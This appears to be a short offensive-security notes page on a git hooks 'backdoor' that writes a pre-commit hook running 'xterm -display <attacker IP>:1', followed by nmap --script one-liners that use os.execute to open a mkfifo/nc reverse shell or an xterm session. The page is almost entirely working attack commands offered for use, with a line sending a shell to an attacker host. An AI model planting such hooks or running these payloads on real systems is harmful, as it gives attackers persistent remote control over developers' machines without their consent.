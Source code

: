 Git hooks "backdoor"
======================

"*...Like many other Version Control Systems, Git has a way to fire off custom scripts when certain important actions occur. There are two groups of these hooks: client-side and server-side. Client-side hooks are triggered by operations such as committing and merging, while server-side hooks run on network operations such as receiving pushed commits. You can use these hooks for all sorts of reasons...*"

**Video**

<a href="http://www.youtube.com/watch?feature=player_embedded&v=rCVmWUf8x1E" target="_blank"><img src="http://img.youtube.com/vi/rCVmWUf8x1E/0.jpg" alt="Profit with Git hooks!" width="480" height="360" border="10" /></a>

**Exploit**
```shell-session

echo "xterm -display <attacker IP>:1 &" > .git/hooks/pre-commit; chmod +x .git/hooks/pre-commit

```

You can use whatever payload you want to exploit, using lame xterm to visually show off payload execution to get a reverse shell to attacker.


$ strace nmap -A 127.0.0.1 -p80 2>&1 | egrep -o '".*\.nse"' | rev | cut -f2- -d\/ | rev | sort -u
"/home/ucastro/.nmap/scripts
"/home/ucastro/.nmap/updates/6.00/scripts
"./scripts
"/usr/local/bin/scripts
"/usr/local/bin/../share/nmap/scripts
"/usr/local/bin/../share/nmap/updates/6.00/scripts
"/usr/local/bin/updates/6.00/scripts
"/usr/local/share/nmap/updates/6.00/scripts


nmap cmd line execution:
nmap --script <(echo "os.execute('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i
2>&1|nc 127.0.0.1 8080 >/tmp/f')")
nmap --script <(echo "os.execute('xterm -display 127.0.0.1:1')")



